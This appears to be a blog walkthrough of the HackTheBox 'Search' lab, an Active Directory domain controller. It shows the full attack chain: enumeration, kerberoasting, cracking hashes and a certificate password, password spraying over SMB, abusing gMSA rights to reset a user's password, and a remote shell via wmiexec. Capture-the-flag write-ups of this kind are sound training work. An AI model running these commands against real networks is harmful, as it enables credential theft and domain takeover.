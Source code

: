 ```yaml
---
title: Search @ HackTheBox  
date: 2025-04-25 13:00:00 
categories: [HTB Machines,Windows Machines]
tags: [active directory,domain controller,responder,ntlm,SPN,DCSync,hack the box,GMSA,adc,kerberoasring]     # TAG names should always be lowercase
comments: true
image:
  path: /./media/post4/Search.png
---
```

Hello, this my walkthroght version about the Search Box in @HTB
## Enumeration
### nmap
```shell
sudo nmap -sC -sV -p$ports -oN tcp_scan $IP
```
couple of ports indicated the target is a domain controller hosting the domain (search.htb)
```shell
echo '10.1O.10.129 search.htb' | suod tee -a /etc/hosts
```
the DC also hosts an IIS web server port 443 so we'll start by that.
### IIS Server
looking at the IIS server that hosts the company search.htb website, we coul find some sensitive information disclosure in one of the hosted images :
![screen_1](/./media/post4/inf_disc.png)
- the account Hope Sharp has a password of: **IsolationIsKey?**

the server also has some interesting endpoint that were found using gobuster :
```shell
gobuster dir -u http://search.htb/ -w /usr/share/SecLists-master/Discovery/Web-Content/Web-Servers/IIS.txt

/certenroll/          (Status: 403) [Size: 1233]
/certsrv/             (Status: 401) [Size: 1293]
/certsrv/mscep/mscep.dll (Status: 401) [Size: 1293]
/certsrv/mscep_admin  (Status: 401) [Size: 1293]
/images/              (Status: 403) [Size: 1233]
```
but access to this endpoint (ex: /staff) was denied and requested some sort of authentication :
![screen_2](/./media/post4/staff.png)
## Gaining a foothold 
after this i have created a list of possible usernames using a python script :
![screen_3](/./media/post4/pss_names.png)
then we can test those usernames if they are valid or not using **kerberute** tool :
```shell
sudo /opt/kerbrute/dist/kerbrute_linux_amd64 userenum --dc 10.10.11.129 -d search.htb ./possible_usernames.txto
```
we can siee that username **hope.sharp** was valid, so for now the we have got the credentials of the username **hope.sharp : IsoloationIsKey?**

Let's try to dump the LDAP database using ldapdomaindump. Remember, any user in Active Directory Domain Services (ADDS) can enumerate and dump domain objects, regardless of their privilege level.
```shell
ldapdomaindump -u search.htb\\hope.sharp -p IsolationIsKey 10.10.11.129
```
looking at the domain users we found an interesting service account :
![screen_4](/./media/post4/web_svc.png)
so lets try some kerberoasting, we first use our hope.sharp creds to find the required SPN, for this we’ll use impacket **GetUserSPNs** script.
```shell
impacket-GetUserSPNs search.htb/hope.sharp:IsolationIsKey? -dc-ip 10.10.11.129 -request
<SNIP>
[-] CCache file is not found. Skipping...
$krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$117889ac179117edc...
<SNIP>
```
and after we got the **TGS** we’ll crack it using john :
```shell
john --wordlist=/usr/share/wordlists/rockyou.txt tgs.txt 
```
so now we have the password of this service account **web_svc : @3ONEmillionbaby**

after mutiple failed attempts of trying some attack vectors i opted for the password reuse since the web_svc was created by the helpdesk group users
```shell
grep "HelpDesk User" domain_users.grep | awk -F'\t' '{print $3}'
Isabela.Estrada
Keith.Hester
Chanel.Bell
Edgar.Jacobs
Lane.Wu
```
this command gave us all the possible accounts the password reuse may work on, because they are all in the HelpDesk group, so lets try a for loop seeing which account might this work 
```shell
for u in Isabela.Estrada Keith.Hester Chanel.Bell Edgar.Jacobs Lane.Wu; do smbmap -u $u -p @3ONEmillionbaby -d search -H 10.10.11.129 --no-banner --no-color 
```
looks like our user **Edgar.Jacobs** a fan of repeating his password in many accounts ( trust me i do that all the time), throught the SMB Enumeration we can see a folder that could be useful : **RedirectedFolders$** 
```shell
smbclient //search.htb/RedirectedFolders$ -U "Edgar.Jacobs"
```
while searching inside the share, i found the user.txt flag inside sierra.frye account, but not enough permessions to get the file :
```shell
smb: \> ls sierra.frye\
  .                                  Dc        0  Wed Nov 17 20:01:46 2021
  ..                                 Dc        0  Wed Nov 17 20:01:46 2021
  Desktop                           DRc        0  Wed Nov 17 20:08:00 2021
  Documents                         DRc        0  Fri Jul 31 10:42:19 2020
  Downloads                         DRc        0  Fri Jul 31 10:45:36 2020
  user.txt                           Ac       33  Wed Nov 17 19:55:27 2021

                3246079 blocks of size 4096. 767375 blocks available
smb: \> get sierra.frye\user.txt 
NT_STATUS_ACCESS_DENIED opening remote file \sierra.frye\user.txt
```
still looking for something useful i found this interesting file in edgar.jacobs desktop folder :
```shell
mb: \edgar.jacobs\Desktop\> ls
  .                                 DRc        0  Mon Aug 10 06:02:16 2020
  ..                                DRc        0  Mon Aug 10 06:02:16 2020
  $RECYCLE.BIN                     DHSc        0  Thu Apr  9 16:05:29 2020
  desktop.ini                      AHSc      282  Mon Aug 10 06:02:16 2020
  Microsoft Edge.lnk                 Ac     1450  Thu Apr  9 16:05:03 2020
  Phishing_Attempt.xlsx              Ac    23130  Mon Aug 10 06:35:44 2020

                3246079 blocks of size 4096. 767371 blocks available
smb: \edgar.jacobs\Desktop\> get Phishing_Attempt.xlsx 
getting file \edgar.jacobs\Desktop\Phishing_Attempt.xlsx of size 23130 as Phishing_Attempt.xlsx (95.3 KiloBytes/sec) (average 95.3 KiloBytes/sec)
```
i opened the file with libreoffice, and it seemed that the **c** column is password protected, but using the name box and typing C9 i could see sierra.frye password : 
![screen_5](/./media/post4/password.png)
now lets connect to the RedirectedFolders$ share as sierra.frye and get the user.txt.
## PrivEsc
while looking inside sierra.frye folder i noticed some certificate’s backup inside **/Downloads/Backups**
```shell
smb: \sierra.frye\Downloads\Backups\> ls
  .                                 DHc        0  Mon Aug 10 16:39:17 2020
  ..                                DHc        0  Mon Aug 10 16:39:17 2020
  search-RESEARCH-CA.p12             Ac     2643  Fri Jul 31 11:04:11 2020
  staff.pfx                          Ac     4326  Mon Aug 10 16:39:17 2020

                3246079 blocks of size 4096. 767785 blocks available
```
nice, now we upload this cert to firefox certifications and access https://search.htb/staff, but before that the certificate is password-protected so we need some crack, i mean to crack the password :
```shell
python3 `which pfx2john ` staff.pfx  > staff.hash

john --wordlist=/usr/share/wordlists/rockyou.txt staff.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 AVX 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:02:39 16.24% (ETA: 13:18:04) 0g/s 16031p/s 16031c/s 16031C/s yusay13..yurirey
0g 0:00:03:38 23.41% (ETA: 13:17:16) 0g/s 16279p/s 16279c/s 16279C/s starr-1..starmagic7681
misspissy        (staff.pfx)     
1g 0:00:05:26 DONE (2025-04-24 13:07) 0.003065g/s 16815p/s 16815c/s 16815C/s missprin1956..missnono
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
the password is **misspissy**
looking at the /staff :
![screen_6](/./media/post4/staff_2.png)
enter sierra.frye creds, after that we’ll get a webshell to the research computer.

now we can start enumerating the domain using sierra.frye user account, and by exploiting sharphound ingestor we could fin this relationship from bloodhound by choosing **Shortest Paths from Owned Principals** :
![screen_7](/./media/post4/bh_1.png)
and the user tristan.davies has a DCSync right over the domain :
![screen_8](/./media/post4/bh_2.png)

sierra.frye is a member of the **ITSEC group**, which has **ReadGMSAPassword** rights on the **BIR-ADFS-GMSA$** group managed service account. This account, in turn, has **GenericAll** rights on tristan.davies ,which has DCSync rights on the domain.

use this code below to retrieve the GMSA Password and use it to force password change of tristian.davies :
```shell
$gmsa = Get-ADServiceAccount -Identity bir-adfs-gmsa -Properties 'msds-managedpassword'
$mp = $gmsa.'msds-managedpassword'
$mp1 = ConvertFrom-ADManagedPasswordBlob $mp
$user = 'BIR-ADFS-GMSA$'
$passwd = $mp1.'CurrentPassword'
$secpass = ConvertTo-SecureString $passwd -AsPlainText -Force
$cred = new-object system.management.automation.PSCredential $user,$secpass
Invoke-Command -computername 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity
tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password123'
-force)} -Credential $cred
```
we then connect to tristian.davies using his new creds :

```shell
wmiexec.py 'search/tristan.davies:Password123@10.10.11.129'
```
after this you can easily get the root flag.